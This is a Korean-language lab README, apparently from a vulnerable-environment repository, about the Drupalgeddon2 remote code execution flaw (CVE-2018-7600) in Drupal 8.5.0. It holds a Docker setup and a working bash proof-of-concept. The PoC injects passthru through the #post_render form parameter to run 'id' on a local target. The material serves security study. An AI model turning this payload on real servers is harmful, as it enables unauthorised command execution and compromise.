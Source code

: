 # CVE-2018-7600 - Drupalgeddon2 (Drupal 8.5.0 RCE)
https://github.com/Thengelsec/kr-vulhub
## 1. 개요
- Drupal 8.5.0 버전에서 발생한 인증 없는 원격 코드 실행(RCE) 취약점이다.
- Form API 처리 로직의 결함을 통해 외부 사용자가 서버 명령어를 실행할 수 있다.


## 2. 취약점 원인
- Drupal이 사용자로부터 받은 `#post_render` 파라미터를 제대로 검증하지 않고 그대로 실행한다.
- 이로 인해 원격 사용자가 서버 측에서 임의의 PHP 함수나 시스템 명령어를 실행할 수 있다.


## 3. 환경 구축 (완전 자동화)

- `docker compose up -d` 명령어로 즉시 설치 완료된 Drupal 8.5.0 환경이 실행된다.

- `settings.php`, `init.sql` 설정파일 백업본 적용
- 별도의 수동 설치 과정 없이, 웹 접속 시 바로 Drupal 메인 화면을 확인할 수 있다.

**구성 자동화 방식:**
- `settings.php`: Drupal 설치 완료 상태 파일을 컨테이너 실행 시 복사
- `init.sql`: DB 초기 데이터 세팅을 컨테이너 시작 시 자동 적용


## 4. 실습 (PoC)

- 해당 스크립트는 Drupal 서버에 취약한 요청을 보내고 명령어 실행 결과를 확인할 수 있다.
- 자동 poc 실행 코드

### PoC 스크립트 (poc_exploit.sh)
명령어 자동실행
```
#!/bin/bash

echo "[*] Drupal CVE-2018-7600 PoC 실행 중..."

response=$(curl -k -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=passthru&mail[a][#markup]=id")

echo "[+] 서버 응답:"
echo "$response"
```

실행코드

환경 구축
```
docker compose up -d
```

poc 진행
```
chmod +x poc_exploit.sh
./poc_exploit.sh
```


## 5. 결과
[![image](https://raw.githubusercontent.com/Thengelsec/kr-vulhub/feature/thengelsec/1.png)](https://github.com/Thengelsec/kr-vulhub)


- 쉘에서 id 명령어 결과가 나옴